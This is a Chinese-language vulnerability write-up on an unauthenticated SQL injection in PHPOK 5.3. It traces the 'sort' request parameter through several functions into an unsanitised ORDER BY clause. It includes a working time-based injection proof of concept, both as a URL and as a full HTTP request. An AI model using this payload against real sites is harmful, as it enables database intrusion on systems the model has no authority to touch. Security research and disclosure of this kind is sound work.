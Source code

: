 ```yaml
---
title: "PHPOK 5.3 前台无限制注入"
id: zhfly3088
---
```


# PHPOK 5.3 前台无限制注入

## 一、漏洞简介

## 二、漏洞影响

PHPOK 5.3

## 三、复现过程

### 漏洞分析

注入点：framework/model/list.php#arc_all

```
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
回溯寻找调用链：framework/phpok_call.php#_arclist

private function _arclist($rs,$cache_id=’’)

{

// 264行

$orderby = $rs[‘orderby’] ? $rs[‘orderby’] : $project[‘orderby’];

```
// 270行 调用arc_all函数，将$orderby传入
$rslist = $this-&gt;model('list')-&gt;arc_all($project,$condition,$field,$offset,$psize,$orderby); 
``` 
```

回溯：framework/api/project_control.php#load_module

```
private function load_module($rs,$parent_rs='')
{
    // 91行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

```
//186行
if($sort){
    $dt['orderby'] = $sort;  // 可控
    $pageurl .= '&amp;sort='.rawurlencode($sort);
    $this-&gt;rlist['sort'] = $sort;
}
// 208行，通过phpok函数动态调用_arclist()函数
    $info = $this-&gt;call-&gt;phpok('_arclist',$dt); 
``` 
```

继续回溯，找谁调用了load_module()：framework/api/project_control.php#index_f

```
public function index_f()
{
    //65行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
} 
```

在控制器里以_f结尾的函数都可以直接被调用

构造poc:

```
http://0-sec.org/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) 
```

### 漏洞复现

poc

```
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close 
```

## 四、参考链接

> https://xz.aliyun.com/t/6831